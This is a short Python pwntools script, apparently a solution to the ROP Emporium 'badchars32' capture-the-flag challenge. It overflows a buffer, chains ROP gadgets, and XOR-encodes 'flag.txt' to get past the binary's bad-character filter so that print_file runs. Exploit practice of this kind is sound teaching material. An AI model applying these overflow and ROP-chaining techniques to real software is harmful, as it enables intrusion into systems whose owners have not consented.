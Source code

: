 ```
from pwn import *
import pwn

BINARY = './badchars32'

context.os = "linux"
context.arch = "i386"
context.binary = BINARY
# address 
pwnme = 0x080483b0
data_section =  0x0804a018 # .data section
print_file = 0x080483d0 #print_file(data)
# gadget
pop_esi_edi_ebp = 0x080485b9 # pop esi; pop edi; pop ebp; ret;
mov_ptr_edi_esi = 0x0804854f # mov dword ptr [edi], esi ; ret
xor_ebp_bl = 0x08048547 # xor byte ptr [ebp], bl ; ret
pop_ebx = 0x0804839d #pop ebx ; ret
pop_ebp = 0x080485bb # pop ebp ; ret

p = process(BINARY)
def xor_data(data,key):
    return bytes([data[i] ^ key for i in range(len(data))])

def output(data):
    open('./input', 'wb').write(data)

def xor_loop_rop():
    rop = b''
    for i in range(len("flag.txt")):
        rop += p32(pop_ebp)
        rop += p32(data_section+i)
        rop += p32(pop_ebx)
        rop += p32(0x00000002)
        rop += p32(xor_ebp_bl)
    return rop

def payload():
    rop = b'A' * 44
    rop += p32(pop_esi_edi_ebp)
    rop += xor_data(b'flag',2)
    rop += p32(data_section)
    rop += b'BBBB'
    rop += p32(mov_ptr_edi_esi)
    rop += p32(pop_esi_edi_ebp)
    rop += xor_data(b'.txt',2)
    rop += p32(data_section+4)
    rop += b'BBBB'
    rop += p32(mov_ptr_edi_esi)
    
    rop += xor_loop_rop()

    rop += p32(print_file)
    rop += b'BBBB'
    rop += p32(data_section)
    return rop


rop = payload()
p.sendline(rop)
flag = p.recvall()
print(flag)

output(rop)
```